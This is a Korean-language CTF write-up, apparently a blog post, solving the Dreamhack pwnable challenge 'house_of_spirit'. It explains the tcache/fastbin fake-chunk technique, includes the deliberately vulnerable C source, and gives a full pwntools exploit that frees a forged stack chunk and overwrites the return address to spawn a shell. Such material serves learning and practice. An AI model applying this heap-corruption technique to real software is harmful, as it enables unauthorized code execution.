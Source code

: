 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN house_of_spirit"
excerpt: "드림핵 포너블 house_of_spirit 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-26 15:00
---
```


얼떨결에 도전해본 4단계 문제이다. 취약점 이름은 제목과 같이 house_of_spirit 공격에 관한 내용이다. 문제를 보면 해당 취약점이 어떤 방식으로 터지는지에 대한 설명이 링크로 주어진다. [https://learn.dreamhack.io/16#96](https://learn.dreamhack.io/16#96)

해당 취약점을 간단히 설명하면, free함수는 할당된 메모리를 해제하는 함수이다. free함수를 통해 해제된 청크는 fastbin의 규칙 때문에 취약점으로 이어질수 있다. 가령 0x30의 메모리를 free하면 해당 청크는 fastbin 규약에 따라 메모리에서 해제된다. 해제된 메모리 정보를 tcache_entry에 저장한다. 이후 다시 0x30의 메모리를 할당 받으면 디른 힙 청크에서 일부를 할당하는 것이 아닌 tcache_entry에 등록되어 있는 동일한 사이즈의 청크를 이용하게 된다. 해당 취약점은 변수의 메모리 주소를 알고있다는 가정 하에 실제 청크의 형식을 변수 메모리에 구성하고 이를 해제 후 제 할당함으로 써 할당한 청크에 값을 쓰면 스택 영역을 덮어 씌울 수 있다.

해당 문제의 소스코드는 다음과 같다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

void get_shell() {
	execve("/bin/sh", NULL, NULL);
}

int main() {
	char name[32];
	int idx, i, size = 0;
	long addr = 0;

	initialize();
	memset(name, 0, sizeof(name));
	printf("name: ");
	read(0, name, sizeof(name)-1);

	printf("%p: %s\n", name, name);
	while(1) {
		printf("1. create\n");
		printf("2. delete\n");
		printf("3. exit\n");
		printf("> ");

		scanf("%d", &idx);

		switch(idx) {
			case 1:
				if(i > 10) {
					return -1;
				}
				printf("Size: ");
				scanf("%d", &size);

				ptr[i] = malloc(size);

				if(!ptr[i]) {
					return -1;
				}
				printf("Data: ");
				read(0, ptr[i], size);
				i++;
				break;
			case 2:
				printf("Addr: ");
				scanf("%ld", &addr);

				free(addr);
				break;
			case 3:
				return 0;
			default: 
				break;
		}
	}

	return 0;
}
```

바이너리의 진행 구조는 다음과 같다.
```
이름 입력 -> 이름 메모리 주소 출력 -> 각 매뉴에 따라 1번은 malloc을 통한 메모리 할당 -> 2번을 통해 free를 이용한 메모리 해제 -> 3번을 통해 return을 호출 후 종료
```

이름을 입력한 메모리의 주소를 알수 있다는 것이 매우 유효하다. 이 주소는 스택 영역에 있으며 이를 이용해 가짜 청크를 구성하고 해제한 가짜 청크만큼 다시 할당해 return영역을 덮어쓰면 익스플로잇에 성공할 것 같다.

문제를 풀기전에 청크의 구조를 알아보자.
```
     ________________________________
    |   prev_size   |      size      |   <- header[prev_size + size의 값이
    |--------------------------------|            32비트의 경우 8바이트(4 + 4),
    |                                |            64비트의 경우 16바이트(8 + 8)]
    |                                |
    |              data              |   <- 할당한 데이터 영역의 크기
    |                                |
    |                                |
    |________________________________|
```
위처럼 구조가 나열되어 있으며 64비트 환경에서 0x32크기의 힙을 할당받으면 해더 영역 0x10 과 데이터 영역 0x32가 더해진 0x42가 해더의 size에 쓰인다. prev_size는 이전 청크의 크기 값이다.


이 정보를 바탕으로 name 변수에 가짜 청크를 구성해보자. 헤더 영역만 잘 맞춰주면 free 함수가 청크로 인식해 사이즈 만큼 해제할 수 있을 것이다. prev_size는 0을 8바이트 만큼 넣고 size를 0x50만큼 입력한다. 이후 출력된 메모리 주소를 free 한다. 다만 힙을 한번 할당 해야지 tcache가 생성되므로 임의 크기의 힙을 한번 할당한다. 이후 출력된 메모리 주소 + 0x10의 주소를 free하면 name변수 주소로 청크가 0x50만큼 할당된다. 이후 임의 데이터로 채우고 return 주소가 들어있는 부분에 get_shell() 함수 주소를 넣으면 익스플로잇 할수 있다.




```python
from pwn import *
context.update(arch='amd64', os='linux')

p = remote("host3.dreamhack.games", 9817);
#p = process("./oneshot", env={'LD_PRELOAD':'./libc.so.6'})
#p = process("./house_of_spirit")
#libc=ELF('./libc.so.6')

data = p64(0)+p64(0x50)
print(data)

p.sendafter(b"name: ", data)

leak = int(p.recvuntil(b":")[:-1], 16)
print(f"leak data : {hex(leak)}")

free_ptr = leak+0x10
print(f"free ptr : {hex(free_ptr)}")

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", b"A"*64)

p.sendlineafter(b"> ", str(2))
p.sendlineafter(b"Addr: ", str(free_ptr))

payload = b"A"*40+p64(0x400940)

p.sendlineafter(b"> ", str(1))
p.sendlineafter(b"Size: ", str(64))
p.sendlineafter(b"Data: ", payload)

pause()

p.sendlineafter(b"> ", str(3))

p.interactive()
```